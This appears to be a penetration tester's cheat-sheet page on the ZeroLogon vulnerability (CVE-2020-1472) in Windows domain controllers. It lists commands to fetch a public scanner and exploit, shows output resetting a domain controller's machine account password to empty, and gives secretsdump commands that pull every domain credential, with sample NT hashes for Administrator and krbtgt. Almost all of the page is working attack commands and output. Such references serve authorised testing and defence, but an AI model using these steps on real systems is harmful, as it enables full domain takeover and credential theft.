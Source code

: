 ```yaml
---
title : "CVE-2020-1472"
# pre : ' '
description : "CVE-2020-1472 ZeroLogon."
date : 2020-09-15T10:19:46+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2020-1472 - ZeroLogon

{{%attachments title="Related files" fa_icon_class="fab fa-python" pattern=".*(py)"/%}}

### Scanner

```plain
git clone https://github.com/SecuraBV/CVE-2020-1472.git
pip install -r requirements.txt
```

### Usage

```plain
$ python3 zerologon_tester.py DC2016 10.10.10.10
Performing authentication attempts...
=============================================================================
Success! DC can be fully compromised by a Zerologon attack.
```

Tip: for finding the computer name, use: rdesktop -u '' IP

### Exploit

```plain
git clone https://github.com/dirkjanm/CVE-2020-1472.git
```

```plain
$ python3 cve-2020-1472-exploit.py DC2016 10.10.10.10
Performing authentication attempts...
=========================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

Dump using 'no-pass' flag and computer account

```plain
$ secretsdump.py DC2016\$@10.10.10.10 -no-pass -just-dc
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
offsec.nl\johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\janedo:1110:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\tokio:1111:aad3b435b51404eeaad3b435b51404ee:b5165f7ba9b2b1a41245a1e91c48b3a9:::
[...]
[*] Cleaning up...
```

Or dump with empty hash

```plain
$ secretsdump.py DC2016\$@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
offsec.nl\johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\janedo:1110:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\tokio:1111:aad3b435b51404eeaad3b435b51404ee:b5165f7ba9b2b1a41245a1e91c48b3a9:::
[..SNIP...]
[*] Cleaning up...
```

## URL List

* [GitHub.com DirkJanM](https://github.com/dirkjanm/CVE-2020-1472)
* [Dirkjanm.io A different way of abusing zerologon](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)
* [GitHub.com SecuraBV](https://github.com/SecuraBV/CVE-2020-1472/)
* [GitHub.com DirkJanM krbrelayx](https://github.com/dirkjanm/krbrelayx)
